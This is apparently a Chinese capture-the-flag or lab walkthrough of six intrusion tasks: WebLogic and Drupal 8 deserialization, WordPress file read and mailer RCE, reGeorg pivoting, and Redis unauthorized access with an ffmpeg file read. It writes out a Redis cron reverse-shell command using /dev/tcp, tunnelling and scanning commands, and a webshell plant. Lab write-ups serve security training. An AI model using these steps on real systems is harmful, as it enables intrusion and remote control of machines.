## 任务一 weblogic反序列化

浏览器访问192.168.2.10:7001 然后就404



使用工具包中的webloigc利用工具



看到flag了是不是，然后执行 `cat /home/flag` 是吧233333

其实，这个flag不过就是个目录。。



得到flag



## 任务二 Wrodpress 任意文件读取

wpscan常规扫描一下



存在一个任意文件读取漏洞



## 任务三 Wordpress命令执行

1.  利用 Burpsuite的 repeater模块修改包探测漏洞存在的字段
2.  执行wordpress mailer 命令执行漏洞的利用脚本尝试获取shell

执行 `wordpress-rce-exploit.sh` 获取到flag



## 任务四 改进漏洞利用脚本获得命令执行权限

1.  通过分析sendmail中的语法改进作者的漏洞利用脚本，缩短host字段的长度绕过限制
2.  利用改进后的漏洞利用脚本来获取shell

修改脚本：



执行脚本



打开另一个shell 进行监听



成功获得反弹的shell



使用 `python` 开启一个服务器



上传 `tunnel.nosocker.php`



成功上传



开启代理：

```
python reGeorgSocksProxy.py -p 8080 -u http://192.168.2.11/tunnel.nosocket.php
```



扫描内网

```
proxychains nmap -Pn -sT 192.168.1.11
```



```
proxychains nmap -Pn -sT 192.168.1.10
```



都开放了80端口，并且看出 `192.168.1.11` 是Windows， `192.168.1.10` 是Linux

## 任务五 redsi未授权访问+ffmpeg任意文件读取

1.  查看网页信息可知，是通过ffmpeg处理视频的小应用，只有上传，下载和删除功能，此处存在ffmpeg文件读取漏洞，构造特定的avi视频，经过ffmpeg处理之后的视频就会包含想要的文件内容。利用文件读取漏洞获取redis配置文件内容
2.  redis数据库服务，允许外连且没有设置密码，可以随意访问，此处存在未授权访问漏洞，正常情况下可以写入文件，但是过程中发现，必要的config命令被替换了。而config命令的替换一定是写在redis的配置文件中的，配置文件的路径又可以在redis中执行info获取到，在以上环境中获取到redis服务器的shell

访问 `http://192.168.1.11`



连接 `redis`

```
proxychains ./redis-cli -h 192.168.1.11
```



看到配置文件的位置

```
/etc/redis/63799.conf
```



下载得到 456.avi



发现 `config` 命令被替换成了 `ccoonnffiigg`

redis连接，通过计划任务反弹shell

```
proxychains ./redis-cli -h 192.168.2.11

ccoonnnffiigg set dir /var/spool/cron
set xxx "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.2.11/9999 0&>1\n\n"
ccoonnnffiigg set dbfilename root
```



成功反弹shell



`/home/flag/flag.txt`



`/etc/redis/63799.conf`



## 任务六 drupal8 远程代码执行

1.  使用浏览器代理访问内网机器 `192.168.1.10`
2.  利用drupal8的php反序列化漏洞向目标服务器写入webshell
3.  使用Cknife连接已经生成的webshell

设置代理



访问



弱口令 `admin,admin`登陆后台



访问 `http://192.168.1.10/admin/config/development/configurations/single/import`

导入 `drupal_exp.txt` 中的内容



网站根目录生成 `shell.php`



`Cknife` 连接，设置代理地址



第一个flag



第二个flag


